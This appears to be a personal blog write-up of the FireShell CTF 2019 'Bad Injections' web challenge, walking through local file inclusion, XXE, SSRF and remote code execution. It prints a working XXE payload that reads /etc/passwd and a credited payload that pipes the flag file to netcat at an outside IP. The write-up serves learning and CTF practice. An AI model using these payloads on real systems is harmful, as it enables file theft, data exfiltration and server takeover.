 ```yaml
---
layout: post
title: FireShell CTF 2019 - Bad Injections
permalink: badInjections 
date: 2019-01-27
comments: 1
categories: CTF
tags: writeup
---
```

Today <strong>FireShell CTF 2019</strong> wrapped up and ended. I had fun and i learned a lot. Coming into the ctf, i was expecting something a little more complicated than trivial, however it proved to be quite a challenge for my first ever serious ctf attempt. I decided to take on the most solved Web Application challenge called "<strong>Bad Injections</strong>". With the help of my amazing friends and fellow contenders i came close to solving it, but ran out of energy at 2AM, 2 hours away from the end of the ctf. 

The website greets us with 4 tabs and has a great deal of red herrings. The about page has SQL code hidden in its source file and the contact-us page has a non-functional feedback form. Really the only tab of interest is the List tab. It displays two images with one appearing to be broken. Upon closer inspection, it turns out that it's not an image, but a text file. 

It's particularly interesting how it is retrieved: {% highlight html %}<img src="download?file=files/test.txt&amp;hash=293d05cb2ced82858519bdec71a0354b" height="500">{% endhighlight %}

The website uses /download and passes it two parameters: <strong>file path and name + a hash</strong>. Quick look in a hash analyzer tells us it's most likely MD5, which can easily be broken. 

{% highlight language %}293d05cb2ced82858519bdec71a0354b{% endhighlight %}This hash when broken reveals the first parameter, {% highlight js %}files/test.txt{% endhighlight %} Lets explore how we can use this newfound knowledge and issue a manual GET request to {% highlight js %}download?file=files/test.txt&amp;hash=293d05cb2ced82858519bdec71a0354b{% endhighlight %}

We get an error in the response body: 

{% highlight language %}
<br />
<b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
{% endhighlight %}

<h2>Local File Inclusion</h2>

Conveniently this error gives us a path for Download.php. Knowing the file path, we can get the second parameter by hashing it and indeed, this works when we issue the request. We get the php source of Download.php. I researched directory structures of a couple php frameworks and this structure looked to me like CakePHP 2.x and to confirm it i tried getting .htaccess on the same level as the app folder. Indeed i got it. Knowing it is CakePHP, there's no need to bruteforce or do directory discovery (<strong>and both were banned by the ctf organizers anyways</strong>), as we can just try to get the routing rules of the server from Routes.php. This gives us the list of resources for the website: {% highlight js %}AboutUs.php, Admin.php, ContactUs.php, Custom.php, Download.php, Lista.php, Routes.php, Verify.php, index.php{% endhighlight %}

Here again we encouter a bunch of red herrings: Verify.php issues a Curl command and some of the people i collaborated with thought this was exploitable, but it wasn't. There's this SQL code {% highlight js %}SELECT * FROM users{% endhighlight %} in AboutUs.php, which is useless. ContactUS.php doesn't do anything, neither does Index.php or Lista.php. The only two files of interest here are Admin.php and Custom.php.

First lets look how Custom is invoked in Routes.php:
{% highlight php %}
Route::set('custom',function(){
  $handler = fopen('php://input','r');
  $data = stream_get_contents($handler);
  if(strlen($data) > 1){
    Custom::Test($data);
  }else{
    Custom::createView('Custom');
  }
});
{% endhighlight %}

It takes user input and calls the Test function. Now onto Custom.php:
{% highlight php %}
public static function Test($string){
    $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
    $test = $root->name;
    echo $test;
}
{% endhighlight %}

<h2>XML External Entity Injection</h2>

The Test function takes in the input and parses it as XML. Certainly issuing a GET request to /custom doesn't do anything and as was suggested to me by <strong>TheZakMan</strong> on the FireShell discord, i tried issuing a POST request to it and it worked. He sent it a piece of XML and discovered that it is vulnerable to <strong>Xml External Entity injection</strong>. I've never muddled in anything related to XML before, so it was a learning experience for me. I managed to inject the XMl code and read the first line of etc/passwd, but the rest was cut off by a million errors. Not before <strong>sixcross</strong> on discord showed me his XML code, i realized that i only got a messy response with mine because of some issue about single and double quotes.

This XML payload gave me a working injection:
{% highlight xml %}
<?xml version='1.0'?> 
<!DOCTYPE foo [<!ELEMENT name ANY >
<!ENTITY result SYSTEM 'file:///etc/passwd'>]>
<foo>
  <name>&result;</name>
</foo>
{% endhighlight %}

<h2>Server-Side Request Forgery</h2>

Now onto Routes.php to take a look at how the admin page is invoked:
{% highlight php %}
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
});
{% endhighlight %}

As you can see here, a condition prevents us from directly accessing the /admin page:
{% highlight php %}
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
    Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
{% endhighlight %}

Only if we come from IPV4 or IPV6 localhost can we call Admin::sort.

Now lets see what Admin.php does:
{% highlight php %}
$uri = parse_url($url);
    $file = file_get_contents($url);
    $dom = new DOMDocument();
    $dom->loadXML($file,LIBXML_NOENT | LIBXML_DTDLOAD);
    $xml = simplexml_import_dom($dom);
{% endhighlight %}

It accepts XML input. <strong>sixcross</strong> suggested we try injecting a command to get <strong>remote code execution</strong> through this part: 
{% highlight php %}usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));{% endhighlight %}

<h2>Remote Code Execution</h2>

He was absolutely right. I also noticed that the first parameter "rss" is accepted as an XML, however this was the furthest i got before my brain ceased to function at 2AM. 

The credit for the rest of it goes to the writeup by <strong>OmniscientSec</strong>. He discovered that not only does the first parameter accept XML, but that the second one accepts <strong>arbitrary code</strong>.

With the following payload he managed to exfil the flag with netcat:
{% highlight xml %}
http://127.0.0.1/admin?rss=http://45.76.39.243/a.xml&order=link.file_get_contents('
http://{your_ip}/'.exec('cat'.chr(32).
'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'45.76.39.243'.chr(32).'1234'))"
{% endhighlight %}

Funny enough, the flag fully describes my experience with this challenge:
{% highlight language %}
f#{1_d0nt_kn0w_wh4t_i4m_d01ng}
{% endhighlight %}

<h2>Conclusion</h2>

In conclusion, this challenge has proven to be a challenge and i learned a lot when trying to solve it. I ultimately failed, but i learned so much about PHP, XML and URL parameters that i feel like in my next CTF i will certainly be able to solve a challenge of this difficulty, given enough time.

<h3>Thanks go to:</h3>
<strong>kronie</strong> for helping me understand PHP,
<strong>TheZakMan</strong> for figuring out there is an XML injection,
<strong>sixcross</strong> for his XML payload and figuring out RCE,
OmniscientSec for solving the challenge, unlike the rest of us peasants
and most importantly to <strong>FireShell CTF</strong> for making an awesome challenge.

# h1
## h2
### h3
**bold**
*italics*
> blockquote
1. First item
2. Second item
3. Third item
- First item
- Second item
- Third item
`code`
---
[title](https://www.example.com)
